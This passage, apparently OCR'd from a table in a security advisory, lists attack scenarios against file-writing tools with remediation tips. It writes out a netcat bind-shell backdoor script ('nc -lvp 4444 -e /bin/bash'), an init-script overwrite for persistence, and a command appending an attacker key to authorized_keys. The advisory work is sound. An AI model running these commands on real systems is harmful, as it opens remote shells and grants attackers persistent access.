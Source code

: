 | # Create a directory for malicious scripts<br>create_directory -- path /usr/local/bin/backdoor<br># Write a malicious script to the directory<br>write_file --path /usr/local/bin/backdoor/exploit.sh --content "#!/bin/bash\nnc -lvp 4444 -e /bin/bash"                                                                                                                                                                                                                                          |  |  |  |  |  |
| 2 Automate Startup with Malicious Scripts:                                                                                                                                                                                                                                                                                                                                                                                                                                                        |  |  |  |  |  |
| # Overwrite startup script<br>"& write_file --path /etc/init.d/startup.sh --content "#!/bin/bash\n/usr/local/bin/backdoor/exploit.sh                                                                                                                                                                                                                                                                                                                                                              |  |  |  |  |  |
| Remediation:                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |  |  |  |  |  |
| • Regular audits and integrity checks.<br>. Limit directory creation rights to trusted users.                                                                                                                                                                                                                                                                                                                                                                                                     |  |  |  |  |  |
| Vulnerability 4: SSH Key Manipulation                                                                                                                                                                                                                                                                                                                                                                                                                                                             |  |  |  |  |  |
| Scenario: Attackers can add their own public SSH keys to ~/.ssh/authorized_keys, gaining unauthorized access.                                                                                                                                                                                                                                                                                                                                                                                     |  |  |  |  |  |
| Exploit Command:                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |  |  |  |  |  |
| echo "attacker_public_key" >> ~/.ssh/authorized_keys                                                                                                                                                                                                                                                                                                                                                                                                                                              |  |  |  |  |  |
| Remediation:                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |  |  |  |  |  |
| • Use strict permissions on authorized_keys:                                                                                                                                                                                                                                                                                                                                                                                                                                                      |  |  |  |  |  |